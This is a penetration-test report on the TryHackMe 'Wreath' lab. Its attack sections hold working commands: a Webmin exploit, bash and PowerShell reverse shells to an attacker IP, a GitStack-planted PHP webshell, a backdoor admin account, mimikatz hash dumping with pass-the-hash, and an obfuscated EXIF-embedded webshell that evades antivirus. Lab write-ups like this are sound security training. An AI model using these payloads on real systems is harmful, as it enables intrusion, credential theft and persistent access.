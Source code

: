 # Wreath - Penetration Test Report

> Note: This is based on a fictitious engagement accessed through [Tryhackme](https://tryhackme.com/room/wreath)

## Table of Contents

- [Executive Summary](#executive-summary)
- Findings and Remediations
  1. [Webserver (`.200`)](#1-webserver-200)
  2. [Pivoting with Webserver (`.200`)](#2-pivoting-with-webserver-200)
  3. [gitserver (`.150`)](#3-gitserver-150)
  4. [Personal PC (`.100`)](#4-personal-pc-100)
- [Conclusion](#conclusion)
- [References](#references)

_____________________________________

## Executive Summary

Our client, Thomas Wreath contacted us to perform a security penetration test on his computer network. Thomas briefed us on the high level architecture prior to the engagement. The scope includes the public facing webserver (local IP address `*.*.*.200`), git server of unknown IP address and his personal PC of also unknown IP address. We were tasked to find any vulnerabilities within the public facing webserver and to pivot to possibly to the git server or even his personal PC

By the end of the engagement, several vulnerabilities were found with suggested remediations detailed in this report. We were able to gain highest level of access to the public webserver, the git server, and Thomas' personal PC (despite having Windows Defender antivirus installed)

> Note: we will now refer to all local IP addresses by their last octect eg. `*.*.*.200` as `.200`

_____________________________________

## 1. Webserver (`.200`)

### Findings

- Vulnerable `MiniServ 1.890 (Webmin httpd)` running on port 80 - `CVE-2019–15107`
- ssh private keys was obtained after getting root access
- ssh on port 22 was enabled which allowed us to maintain access

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan

```
nmap -p-15000 10.200.81.200 -oN initial.nmap
Starting Nmap 7.80 ( https://nmap.org ) at 2021-04-05 02:14 EDT
Nmap scan report for thomaswreath.thm (10.200.81.200)
Host is up (0.26s latency).
Not shown: 14995 filtered ports
PORT      STATE  SERVICE
22/tcp    open   ssh
80/tcp    open   http
443/tcp   open   https
9090/tcp  closed zeus-admin
10000/tcp open   snet-sensor-mgmt

Nmap done: 1 IP address (1 host up) scanned in 118.64 seconds
```

Researching the Webmin version reveals this server is vulnerable to [`CVE-2019–15107`](https://www.cvedetails.com/cve/CVE-2019-15107/)

_____________________________________

### Webserver exploitation

Exploit used: `https://github.com/MuirlandOracle/CVE-2019-15107`

```
./CVE-2019-15107.py 10.200.81.200

        __        __   _               _         ____   ____ _____     
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|    
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|      
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___     
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|     
                                                                       
                                                @MuirlandOracle        
                                                                       
                                                                       
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.81.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                     
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# id                                                                   
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0

```

Create a reverse shell by:

1. New terminal start a nc listener

```
nc -lvnp 1337
```

2. On the pseudo shell run a reverse bash command
   
```
/bin/bash -i >& /dev/tcp/10.50.82.56/1337 0>&1 
```

3. Back on the listener terminal, we have reverse shell

```
nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.50.82.56] from (UNKNOWN) [10.200.81.200] 45242          
bash: cannot set terminal process group (1781): Inappropriate ioctl for device
bash: no job control in this shell                                     
[root@prod-serv ]# id                                                  
id                                                                     
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
```

_____________________________________

### Webserver maintain access - ssh private keys

SSH keys are commonly stored in the home directory under `~/.ssh`

```
ls -la ~/.ssh
total 16
drwx------. 2 root root   80 Jan  6 03:29 .
dr-xr-x---. 3 root root  228 Apr  4 10:20 ..
-rw-r--r--. 1 root root  571 Nov  7 14:05 authorized_keys
-rw-------. 1 root root 2602 Nov  7 14:02 id_rsa
-rw-r--r--. 1 root root  571 Nov  7 14:02 id_rsa.pub
-rw-r--r--. 1 root root  345 Apr  3 07:54 known_hosts
```

With root access, we have read access to the private key `id_rsa`.

This key can be used to ssh straight into the webserver

```
ssh -i id_rsa root@10.200.81.200
[root@prod-serv ~]# id
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

_____________________________________


</details>
<br>

### Remediation

- Update `MiniServ 1.890 (Webmin httpd)` to the latest version

_____________________________________

## 2. Pivoting with webserver (`.200`)

### Findings

- Using the webserver `.200`, we perform a scan of the network 
- Two hosts found with local IP addresses ending with `.100` and `.150`
- Host `.100` have filtered ports 
- Host `.150` have open ports that we can further enumerate on

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a network scan 

> We first upload a binary of nmap to the webserver and log in using ssh keys obtained previously

Ping scan - found `100` and `150` are up

```
[root@prod-serv tmp]# ./nmap-Neozer0 -sn 10.200.81.1-255 -oN scan-Neozer0

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:29 BST
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-1.eu-west-1.compute.internal (10.200.81.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00035s latency).
MAC Address: 02:8C:E0:55:7B:89 (Unknown)
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Host is up (0.00014s latency).
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Host is up (-0.10s latency).
MAC Address: 02:AD:06:35:A5:CB (Unknown)
Nmap scan report for ip-10-200-81-250.eu-west-1.compute.internal (10.200.81.250)
Host is up (0.00022s latency).
MAC Address: 02:E7:4E:C8:80:A7 (Unknown)
Nmap scan report for ip-10-200-81-200.eu-west-1.compute.internal (10.200.81.200)
Host is up.
Nmap done: 255 IP addresses (5 hosts up) scanned in 3.73 seconds
```

> Note: we ignore `.1 ` and `.250` (VPN server) here as they are out of scope

Scanning ports for `.100` returns filtered ports
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.100

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-14 10:17 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (-0.20s latency).
All 6150 scanned ports on ip-10-200-81-100.eu-west-1.compute.internal (10.200.81.100) are filtered
MAC Address: 02:6E:4F:DD:1B:65 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 124.54 seconds
```

Scanning ports for `.150` returns results
```
[root@prod-serv tmp]# ./nmap-Neozer0 10.200.81.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-13 11:57 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-81-150.eu-west-1.compute.internal (10.200.81.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00049s latency).
Not shown: 6142 closed ports
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  epmap
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
5357/tcp  open  wsdapi
5985/tcp  open  wsman
47001/tcp open  winrm
MAC Address: 02:AD:06:35:A5:CB (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 574.74 seconds
```

It is still unknown what this server is and more enumeration is required

### Clean up

- Delete /tmp/nmap-Neozer0

</details>
<br>

### Remediation

- None

_____________________________________

## 3. gitserver (`.150`)

### Findings

- Ports `80`, `3389`, `5986` are open
- gitserver running `gitstack`
- gitserver vulnerable to unauthenticated RCE on `gitstack v2.3.10`
- Using rdp we were able to run mimikatz and obtain hashes for persistence

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan 

Scanning ports for `.150` revels port 80, 3389 and 5985 are open
```
[root@prod-serv tmp]# ./nmap-Neozer0 -p1-15000 10.200.85.150

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2021-04-16 23:49 BST
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-85-150.eu-west-1.compute.internal (10.200.85.150)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00083s latency).
Not shown: 14997 filtered ports
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
MAC Address: 02:4C:02:6B:0D:57 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 280.32 seconds
```

_____________________________________

### Examine the webpage on port 80

Webpage through port `80` is only visible if we were to access with Webserver `.200`. This can be done with sshuttle

```
kali@kali:~/thm/wreath$ sshuttle -r root@10.200.85.200 --ssh-cmd "ssh -i ssh/webserver_id_rsa" 10.200.85.0/24 -x 10.200.85.200
c : Connected to server.
```

> Note we use the ssh keys private keys again here

Visiting the webpage reveals that the server is using `gitstack` and a path `registration/login/` exists

![gitserver](gitPivot.png)

Visiting the page shows a login page (default admin/admin creds do not work here)

![gitserver login](gitstack.png)

_____________________________________

### GitStack exploitation

We obtain a gitstack exploit and modify to suit
Use searchsploit on gitstack
```
kali@kali:~/thm/wreath$ searchsploit gitstack
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                                      |  Path
                                                                                                                                                                    | (/usr/share/exploitdb/)
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
GitStack - Remote Code Execution                                                                                                                                    | exploits/php/webapps/44044.md
GitStack - Unsanitized Argument Remote Code Execution (Metasploit)                                                                                                  | exploits/windows/remote/44356.rb
GitStack 2.3.10 - Remote Code Execution                                                                                                                             | exploits/php/webapps/43777.py
-------------------------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

Download the potential RCE found with searchsploit
```
kali@kali:~/thm/wreath$ searchsploit -m 43777
  Exploit: GitStack 2.3.10 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/43777
     Path: /usr/share/exploitdb/exploits/php/webapps/43777.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/kali/thm/wreath/43777.py
```

Change the ip address to target IP eg `10.200.85.150` and the location where the backdoor will live (`Neozer0-exploit.php`)

```python
ip = '10.200.85.150'

# What command you want to execute
command = "whoami"

repository = 'rce'
username = 'rce'
password = 'rce'
csrf_token = 'token'

...

print "[+] Create backdoor in PHP"
r = requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST[\'a\']); ?>" > c:\GitStack\gitphp\Neozer0-exploit.php'))
print r.text.encode(sys.stdout.encoding, errors='replace')

print "[+] Execute command"
r = requests.post("http://{}/web/Neozer0-exploit.php".format(ip), data={'a' : command})
print r.text.encode(sys.stdout.encoding, errors='replace')
```

These create PHP webshell `<?php system($_POST['a']); ?>` and echo it into `Neozer0-exploit.php` under webroot.

This can be accessed by posting a command to `/web/Neozer0-exploit.php`

Run `43777.py` - the backdoor will live in `IP/web/exploit-Neozer0.php`

```
kali@kali:~/thm/wreath$ python2 43777.py 
[+] Get user list
[+] Found user twreath
[+] Web repository already enabled
[+] Get repositories list
[+] Found repository Website
[+] Add user to repository
[+] Disable access for anyone
[+] Create backdoor in PHP
Your GitStack credentials were not entered correcly. Please ask your GitStack administrator to give you a username/password and give you access to this repository. <br />Note : You have to enter the credentials of a user which has at least read access to your repository. Your GitStack administration panel username/password will not work. 
[+] Execute command
"nt authority\system
" 
```

> Note the `whoami` command runs on first execution

We can now run commands on the webshell using query params of `a`

Find hostname - `git-serv`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=hostname"
"git-serv
" 
```

Find OS  - `Windows`
```
kali@kali:~/thm/wreath$ curl -X POST http://gitserver.thm/web/exploit-Neozer0.php -d "a=systeminfo"
"
Host Name:                 GIT-SERV
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763

...
```

_____________________________________

### Obtaining a reverse shell

This is a bit more difficult as we want to listen from our Attacking Machine for a nc connection through the Webserver `.200` to the gitserver `.150`. Here we use a socat relay

Start a nc listener on attacking machine
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
listening on [any] 30000 ...
```

Open up a port on Web server `.200`
```
[root@prod-serv ~]# firewall-cmd --zone=public --add-port 29999/tcp
success
```

Set up a relay on `.200` (pass through to attacking machine)
```
[root@prod-serv tmp]# ./socat-Neozer0 tcp-l:29999 tcp:10.50.82.56:30000 &
[1] 2902
```

> Note: we upload a socat version to the `/tmp` directory to use

Execute a reverse shell

Use this command to get a reverse shell - use web server IP and port that was just opened
```
powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.200.85.200',29999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Need to url encode the command first if using `curl`

Attacking machine
```
kali@kali:~/thm/wreath$ curl -X POST -d "a=powershell.exe%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.85.200%27%2C29999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22" http://gitserver.thm/web/exploit-Neozer0.php
```

We receive a shell on our attacking machine!
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 30000
[sudo] password for kali: 
listening on [any] 30000 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.200] 46412
whoami
nt authority\system
PS C:\GitStack\gitphp> 
```

_____________________________________

### Maintain access

From inital port scans we see that rdp is enabled on port 3389 (RDP) and 5985 (WinRM)

Since we already have ultimate access, we can create these users that can leverage rdp

We need to add the account to the Administrators and Remote Management Users groups 

```
PS C:\GitStack\gitphp> net user Neozer0 taco /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup Administrators Neozer0 /add
The command completed successfully.

PS C:\GitStack\gitphp> net localgroup "Remote Management Users" Neozer0 /add
The command completed successfully.
```


```
kali@kali:~/thm/wreath$ evil-winrm -u Neozer0 -p taco -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Neozer0\Documents> whoami
git-serv\neozer0
```

We access the server with rdp

run xfreerdp to get GUI rdp
```
kali@kali:~/thm/wreath$ xfreerdp /v:10.200.85.150 /u:Neozer0 /p:taco +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
[03:04:23:067] [2154:2155] [INFO][com.freerdp.core] - freerdp_connect:freerdp_set_last_error_ex resetting error state
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpdr
[03:04:23:067] [2154:2155] [INFO][com.freerdp.client.common.cmdline] - loading channelEx rdpsnd

...
```

We can see a share folder that can be accessed on cli as `\\tsclient\`

![xfreerdp](xfreerdp-share-folder.png)

Run cmd as admin and run mimikatz

We can obtain the hashes by running: 
- `privilege::debug`
- `token::elevate`
- `lsadump::sam`


```
(c) 2018 Microsoft Corporation. All rights reserved.                                                                                                                                                                                                                                    C:\Windows\system32>\\tsclient\share\mimikatz\x64\mimikatz.exe                                                                                                                                                                                                                            .#####.   mimikatz 2.2.0 (x64) #18362 Jan  4 2020 18:59:26                                                                                 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)                                                                                                  ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )                                                                     ## \ / ##       > http://blog.gentilkiwi.com/mimikatz                                                                                       '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )                                                                     '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/                                                                                                                                                                                                               

mimikatz # privilege::debug                                                                                                                 Privilege '20' OK                                                                                                                                                                                                                                                                       

mimikatz # token::elevate                                                                                                                   Token Id  : 0                                                                                                                               User name :                                                                                                                                 SID name  : NT AUTHORITY\SYSTEM                                                                                                                                                                                                                                                         672     {0;000003e7} 1 D 20141          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary                                      -> Impersonated !                                                                                                                           * Process Token : {0;000b5d45} 2 F 1722298     GIT-SERV\Neozer0        S-1-5-21-3335744492-1614955177-2693036043-1002  (15g,24p)    Primary                                                                                                                                             * Thread Token  : {0;000003e7} 1 D 1795378     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)                                                                                                                                                    

...

mimikatz # lsadump::sam                                                                                                                     Domain : GIT-SERV                                                                          User : Administrator                                                                                                                          Hash NTLM: ********************************                                                                                                                                                                                                                                           

...

RID  : 000003e9 (1001)                                                                                                       User : Thomas                                                                                                                  Hash NTLM: ********************************                                                

...
```

![xfreerdp mimikatz](xfreerdp-mimikatz.png)

With the Administrator's hash we can log in using evil-winrm's pass the hash without the use of socat relay and nc listener

```
kali@kali:~/thm/wreath$ evil-winrm -u Administrator -H ******************************** -i 10.200.85.150

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
git-serv\administrator
```

_____________________________________

### Clean up

- Delete `/tmp/socat-Neozer0` - webserver
- Delete `/Neozer0-exploit.php` - gitserver
- Delete user `Neozer0` - gitserver
- Remove firewall port open rule on port 29999

</details>
<br>

### Remediation

- Update GitStack to the latest version

_____________________________________

## 4. Personal PC (`.100`)

### Findings

- Ports 80 and 3389 are open
- PHP 7.4.11 is used
- Webpage source code can be found in the gitserver `.150`
- Analysing git commits we see a new path on the website `/resources` with an upload feature
- There are two filters on the upload feature to bypass
  - File extension
  - Image size
- php injected into `Comment` of the image exifdata allows us to get a webshell
- Misconfigured privilege found on `SystemExplorerHelpService` execution path allowing us to inject our own executable and obtain shell running as root

<details>
<summary>Attack Narrative</summary>
<br>

_____________________________________

### Perform a port scan on Personal PC (`.100`)

First we run evil-winrm with `-s` to specify path to scan script `Invoke-Portscan`

Performing portscans reveal ports `80` and `3389` are open
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> Invoke-Portscan -Hosts 10.200.85.100 -TopPorts 50

Hostname      : 10.200.85.100
alive         : True
openPorts     : {80, 3389}
closedPorts   : {}
filteredPorts : {445, 443, 21, 23...}
finishTime    : 4/22/2021 10:49:34 AM
```

Next we check out the webserver

_____________________________________

### Check out the webserver on Personal PC (`.100`)

Because the Personal PC port 80 is only opened to the gitserver `.150`, we need to perform additional steps.

Chisel forward proxy is a good option with sshuttle being used.

1. Open up a port in Windows firewall (we chose port 34999 here)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-Neozer0" dir=in action=allow protocol=tcp localport=34999
Ok.
```

2. Start a `chisel client` on attacking machine

```
kali@kali:~/thm/wreath$ chisel client 10.200.85.150:34999 9090:socks
2021/04/22 06:34:39 client: Connecting to ws://10.200.85.150:34999
2021/04/22 06:37:28 client: Connected (Latency 262.542935ms)
```

3. Upload chisel (Windows version) to Git server (`.150`) and run `chisel server` (note we chose port 34999)

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload /tmp/chisel c:\windows\tmp\chisel-Neozer0.exe

*Evil-WinRM* PS C:\Users\Administrator\Documents> c:\windows\tmp\chisel-Neozer0.exe server -p 34999 --socks5
chisel-Neozer0.exe : 2021/04/22 11:37:19 server: Fingerprint 4YNhTCGX+gcPiJEUdmRj7Qil1srdihA8ooqp0LBNLnY=
    + CategoryInfo          : NotSpecified: (2021/04/22 11:3...hA8ooqp0LBNLnY=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/04/22 11:37:19 server: Listening on http://0.0.0.0:349992021/04/22 11:37:27 server: session#1: Client version (0.0.0-src) differs from server version (1.7.6)

```

4. Now port forwarding is connected, we set up Foxy proxy with the following settings
- IP 127.0.0.1
- Port 9090
- Proxy type SOCKS5
![foxyproxy setting](foxyproxysetting.png)

5. visit 10.200.85.100 - this is a clone of Thomas' personal website
6. Using Wappalyzer we detect php version used on this page

![local web server](wapplocalwebserver.png)

_____________________________________

### gitserver (`.150`) code review

We find `Webserver.git` on the git server in `C:\GitStack\repositories`

```
*Evil-WinRM* PS C:\> ls GitStack/repositories


    Directory: C:\GitStack\repositories


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----         1/2/2021   7:05 PM                Website.git
```

Download the entire directory and use GitTools to analyse commits and use GitTools to extract git
```
kali@kali:~/thm/wreath$ ./GitTools/Extractor/extractor.sh gitserver/downloaded-website/ gitserver/Website                                                                                             
###########
# Extractor is part of https://github.com/internetwache/GitTools

...

[*] Creating...
[+] Found commit: 70dde80cc19ec76704567996738894828f4ee895
[+] Found folder: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css                                                                                              
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/.DS_Store                                                                                      
[+] Found file: /home/kali/thm/wreath/gitserver/Website/0-70dde80cc19ec76704567996738894828f4ee895/css/bootstrap.min.css
```

We see the extracted directories are commits
```
kali@kali:~/thm/wreath/gitserver/Website$ ls
0-70dde80cc19ec76704567996738894828f4ee895  2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
```

We use a bash one liner to loop through all the folders `commit-meta.txt` and read out more details

```
kali@kali:~/thm/wreath/gitserver/Website$ separator="====="; for i in $(ls); do printf "\n\n$separator\n$i\n$(cat $i/commit-meta.txt)";done


=====
0-70dde80cc19ec76704567996738894828f4ee895
tree d6f9cc307e317dec7be4fe80fb0ca569a97dd984
author twreath <me@thomaswreath.thm> 1604849458 +0000
committer twreath <me@thomaswreath.thm> 1604849458 +0000

Static Website Commit

=====
1-345ac8b236064b431fa43f53d91c98c4834ef8f3
tree c4726fef596741220267e2b1e014024b93fced78
parent 82dfc97bec0d7582d485d9031c09abcb5c6b18f2
author twreath <me@thomaswreath.thm> 1609614315 +0000
committer twreath <me@thomaswreath.thm> 1609614315 +0000

Updated the filter

=====
2-82dfc97bec0d7582d485d9031c09abcb5c6b18f2
tree 03f072e22c2f4b74480fcfb0eb31c8e624001b6e
parent 70dde80cc19ec76704567996738894828f4ee895
author twreath <me@thomaswreath.thm> 1608592351 +0000
committer twreath <me@thomaswreath.thm> 1608592351 +0000

Initial Commit for the back-end
```

The commits are in these order:
1. `Static Website Commit` - `70dde80cc19ec76704567996738894828f4ee895`
2. `Initial Commit for the back-end` - `82dfc97bec0d7582d485d9031c09abcb5c6b18f2`
3. `Updated the filter` - `345ac8b236064b431fa43f53d91c98c4834ef8f3`

We look for php files in the folder `345ac8b236064b431fa43f53d91c98c4834ef8f3`

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ find . -name "*.php"
./resources/index.php
```

Partial of index.php:

```php
<?php

        if(isset($_POST["upload"]) && is_uploaded_file($_FILES["file"]["tmp_name"])){
                $target = "uploads/".basename($_FILES["file"]["name"]);
                $goodExts = ["jpg", "jpeg", "png", "gif"];
...

        <!-- ToDo:
                  - Upgrade the filter on this page. Can't rely on basic auth for everything
                  
```

Interesting part is the filters here
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
if(!in_array(explode(".", $_FILES["file"]["name"])[1], $goodExts) || !$size){
    header("location: ./?msg=Fail");
    die();
}
```

This line has `getimagesize` method that checks if image has dimensions - returns `False` if file is not an image
```php
$size = getimagesize($_FILES["file"]["tmp_name"]);
```

This line checks for two conditions, if either fails, we get error message.
- First condition split string by `.` into an array and checks second item
  - `image.jpeg` returns `["image", "jpeg"]`
  - But `image.jpeg.php` returns `["image","jpeg","php"]` and `jpeg` gets passed into the filter
  - This filter then checks if it is not in the array of `$goodExts`
- Second condition checks if the file is not an image

After two conditions pass, the file gets moved into `uploads/` directory with original name
```php
$target = "uploads/".basename($_FILES["file"]["name"]);
```

We also find a folder `/resources` which may be a directory on the web to check out

```
kali@kali:~/thm/wreath/gitserver/Website/1-345ac8b236064b431fa43f53d91c98c4834ef8f3$ ls
commit-meta.txt  css  favicon.png  fonts  img  index.html  js  resources
```

_____________________________________

### Visit `/resources` endpoint

we can visit `http://10.200.85.100/resources` where we are greeted with a login prompt

![login prompt](./resources.png)

Try Thomas' hash that we cracked earlier

User: Thomas

Password: *******

.. And we're in

Upload a normal jpg file and access it through `/resources/uploads/FILE.jpg`

Upload success
![upload success](./uploadsuccess.png)

And we see our image
![upload access](./uploadaccess.png)

Now to upload an exploit to get webshell. We need to bypass the two filters
1. The file extension can be bypassed with `.jpeg.php`
2. The image size will require an actual image with shell injected in the exifdata, specifically the `Comment` field
   
Take a regular image and rename it with `.jpeg.php` extension

Run `exiftool` on the image
```
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php 
ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:30:57-04:00
...
```

There is also AV installed on this target. It may detect any default PHP webshell uploaded and alert the victim. The first step then is to create a proof of concept before we can work out an AV bypass.

Harmless PHP payload - `<?php echo "<pre>Test Payload</pre>"; die();?>` 

We add this to the image with exiftool
```
kali@kali:~/thm/wreath$ exiftool -Comment="<?php echo \"<pre>Test Payload</pre>\"; die(); ?>" test-Neozer0.jpeg.php
    1 image files updated
kali@kali:~/thm/wreath$ exiftool test-Neozer0.jpeg.php ExifTool Version Number         : 12.16
File Name                       : test-Neozer0.jpeg.php
Directory                       : .
File Size                       : 45 KiB
File Modification Date/Time     : 2021:04:23 09:35:37-04:00

...

Comment                         : <?php echo "<pre>Test Payload</pre>"; die(); ?>

...
```

Now we upload this benign payload and access it on the browser to see that the test payload has worked and we are able to execute PHP code on the system!

![upload poc](./uploadpoc.png)

_____________________________________

### Exploit with AV Evasion 

Given that we know the AV used on the PC is Windows Defender (preinstalled with Windows Server):
  - We build payload in a slightly less common way
  - We obfuscate manually or using a tool online

Payload:
```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

We use online [php obfuscator](https://www.gaijin.at/en/tools/php-obfuscator) with all obfuscation options set and we get:

```php
<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>
```

Make a new copy of the image and inject our new payload
```
kali@kali:~/thm/wreath$ cp ~/Downloads/corg.jpg ./shell-Neozer0.jpeg.php
kali@kali:~/thm/wreath$ exiftool -Comment="<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>" shell-Neozer0.jpeg.php 
    1 image files updated
kali@kali:~/thm/wreath$ exiftool shell-Neozer0.jpeg.php
ExifTool Version Number         : 12.16
